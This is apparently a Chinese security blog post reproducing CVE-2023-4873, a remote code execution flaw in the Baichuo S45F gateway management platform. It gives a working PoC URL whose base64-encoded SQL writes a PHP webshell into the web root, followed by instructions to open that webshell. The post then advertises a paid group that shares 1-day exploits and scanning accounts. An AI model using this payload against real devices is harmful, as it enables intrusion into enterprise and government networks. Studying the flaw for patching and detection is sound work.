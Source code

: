 #  百绰网关管理平台RCE | CVE-2023-4873   
WK安全  WK安全   2023-10-15 00:01  
  
```
免责声明
  由于传播、利用WK安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负
责，WK安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除
并致歉。谢谢！
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIGOTDayJw61NbzQRgiaWrxElC3H8BDvJBAmx0lPoOtRb4c3cDhHnxTfZficfWiayFweiaCtMyib8OnIFOA/640?wx_fmt=jpeg "")  
  
| 0x01 漏洞介绍  
  
      
北京百绰智能S45F多业务安全网关智能管理平台是一款集成了多种网络安全功能和业务管理功能的高性能网关设备。它主要应用于企业、政府、金融等关键信息基础设施领域，为用户提供一站式的网络安全防护和业务管理解决方案。该漏洞存在于  
/importexport.php当中，攻击者可利用该漏洞进行远程代码执行。  
  
| 0x02 影响版本  
```
S45F多业务安全网关智能管理平台
```  
  
| 0x03 漏洞复现  
  
    打开是这个页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1qkgPBQslIGM7Xu3eA8NiaLlW8WpDmjxA7n8G3Oo6RW3kR60tda1YPuW4uDN64OsUtQatLgMreII3F987VJG5sA/640?wx_fmt=png "")  
  
构建POC并执行下载  
```
https://ip:port/importexport.php?sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc2VjLnBocCc=&type=exportexcelbysql
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1qkgPBQslIGM7Xu3eA8NiaLlW8WpDmjxAdDuL8m1lpZxqRsx0hb0uDhbXQQMibHBxzryluECuCud7J1yyhJz6H3g/640?wx_fmt=png "")  
  
访问/app/sec.php以获取Webshell。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1qkgPBQslIGM7Xu3eA8NiaLlW8WpDmjxAAgJusOayWNSicu5MHqf0UUibJzGW6ltlLQaI1mEEsuYk0MUP60jBKibRg/640?wx_fmt=png "")  
  
参考链接  
```
https://github.com/cugerQDHJ/cve/blob/main/rce.md
```  
  
**|**  
**知识星球的介绍**  
  
不好意思，兄弟们，这里给湘安无事星球打个广告，不喜欢的可以直接滑走哦。  
  
1.群主为什么要建知识星球？  
```
很简单为了恰饭哈哈哈，然后也是为了建立一个圈子进行交流学习和共享资源嘛
相应的也收取费用嘛，毕竟维持星球也需要精力
```  
  
2.知识星球有哪些资源？  
```
群里面联系群主是可以要一些免费的学习资料的，因为群里面大部分是大学生嘛
大学生不就是喜欢白嫖，所以大家会共享一些资料
没有的群主wk也有,wk除了不会pc,其他都能嫖hhh
```  
  
一些实战报告，截的部分  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RcLSRwZcEVNtIZkzdBc6oFT9jYPTSicI2dfuibvXY2XkqPEcmFtWPIxw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62RB3woW60WbOxWFuYycTic8ltSWVvXRCHcpLIfl3tnaUI4rArq2YTPhw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62TzMgcj8bnia1VDlFiaE5HHo8DGBibrfGYLJibnlEZ8MaJD1H5bNjUM4WiaA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
一些1day的poc,这些也就是信息差，不想找可以让wk帮你们嫖,群主也会经常发  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62u6rIc801vEhGFYFsVtzrSKobQpybfzZvtmwOUjLStelMbJ5yg3Ouow/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62oKLUAWOIwkcYbWfmE1JNBma2h9sEsJz7T6SRBOqz72gz9Cy0K7rlyQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/S2ssjS1jNYsaic5UibibYwwA4tj3bicXuF62vibbG0Nu1NhibkJcshXVDrklAYuXlTIK7Frkia05hmQZRAXEgpxF0MHOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
一些共享的资源  
```
1.刀客源码的会员
2.fofa 360高级会员
3.专属漏洞库
5.专属内部it免费课程
6.不定期直播分享（星球有录屏）
```  
  
技术交流可加下方wx  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIF4licGevYiaCjMeNIKCDprSg7xdfCRBrV7VyavUGJcCN8pDLT5RD5dibuicQ0mURYGVLxvONKrpYewzQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIHjS8eDgIsoh0FvaTB4Nn2fSBib61prlLqrEFW5XukrNYtbKSXpk1ZiaWSQHM9GLYV3VUYbPtQXqTGQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIFRZnLwGGOc9l1PaxoiaZZcCgnC8CZwtgb2bcgt1TRUeRLanZ47thAXXgUUaXog9JPpD09wtwibh9IQ/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/1qkgPBQslIFRZnLwGGOc9l1PaxoiaZZcCSxoSdNQIUbpEgjlRNTITqP7ial5dIOLWFh6ibJyicQwVG2GDzoLQY3vpA/640?wx_fmt=jpeg "")  
  
